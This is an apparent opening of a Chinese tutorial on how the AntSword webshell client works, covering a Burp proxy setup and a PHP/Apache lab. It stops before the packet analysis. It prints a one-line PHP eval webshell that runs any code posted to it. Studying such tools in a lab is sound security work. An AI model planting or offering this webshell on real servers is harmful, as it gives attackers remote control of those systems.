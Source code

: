 

### 蚁剑原理介绍

#### 前期准备

- 首先在蚁剑添加手动代理，用于`Burp`抓包分析

![](webshell原理.assets/webshell_1.png)

- PHP 5.4.45 + apache
- webshell

```php
<?php @eval($_POST['cmd']);?>
```

#### 抓包分析
